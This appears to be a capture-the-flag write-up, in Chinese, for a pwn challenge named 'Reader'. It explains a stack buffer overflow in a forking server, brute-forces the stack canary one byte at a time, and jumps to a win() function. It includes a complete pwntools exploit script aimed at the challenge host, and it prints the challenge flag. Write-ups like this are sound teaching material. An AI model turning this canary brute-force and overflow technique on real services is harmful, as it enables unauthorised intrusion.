






# pwn - Reader Writeup

---  


## FLAG：
`CYBORG{u_hulk_sm4sh3d_th4t_c4n4ry_l1k3_a_ch4mp!!!`

## 觀察：
- 執行檔案：不斷詢問`Enter some data: `，在輸入任意字串後印出`Your data was read. ...`等訊息。
- checksec：canary found
- IDA分析：
	- `main()`：不斷fork出child
	- child：執行`vuln()`
	- `vuln()`：詢問`Enter some data: `、接收 input 以及印出`Your data was read. ...`等訊息。
	- `win()`：印出flag.txt
	- `main()` 
	- `vuln()` 
	- `win()`  

## 思路：
- `vuln()`輸入字串的地方有bof漏洞，且有個`win()`作為跳轉目標，可以用 **ret2win** 解題。
- 由於所有child的canary都一樣，且child發生stack smash時不影響parent，parent可以繼續fork出child執行程式，可以用 **Bruteforcing forks / threads** 來找出正確的canary。

## 目標：
- 找出stack canary並在覆蓋return address時正確注入。
- 找出`win()`的位址並跳轉。(optional) 注意`$rsp`對齊16bytes的問題。

## 步驟：
1. canary共8個byte，第一個byte會是`'\x00'`。
2. 在canary尾端添加1個可能的byte，直到沒有發生stack smash，表示猜測正確。
3. 猜測canary直到8個byte都解出。
4. 將canary與`win()`的位址注入。獲得FLAG。

> [!NOTE] `$rsp` alignment
> `$rip`跳到`win()`的當下，`$rsp`會對齊16 byte，即`$rsp`的結尾是0x...0(而非0x...8)。接著若在`win()`中執行`push`指令(通常是`push rbp`)會使`$rsp`的值減少8而沒有對齊16 byte，進而造成一些與`$rsp`有關的指令無法執行，產生`SIGBUS` signal 終止程式。  
> - 因此在`$rip`跳到`win()`時，我刻意跳到`<win+5>`的位置避免這個問題。
## Exploit：  

```python
#!/usr/bin/python3.8
from pwn import *
from Crypto.Util.number import long_to_bytes

r = remote('0.cloud.chals.io', 10677)
#r = process("./reader")
canary = b'\x00'
byte = [ long_to_bytes(x) for x in range(1, 0x100) ]
  
r.recvuntil(b"Enter some data: ")
  
while len(canary) != 8:
    for b in byte:
        candidate = canary + b
        #print(f"trying: {candidate = }")
        payload = b'A'*72 + candidate
        r.send(payload)
        rst = r.recvuntil(b'Enter some data: ').decode()
        if rst.find('***') == -1:        # no stack smashing
            canary = candidate
            print(f'current {canary = }')
            break
  
payload = b'A'*72 + canary + b'B'*8 + p64(0x40127B)
r.send(payload)
r.interactive()
```

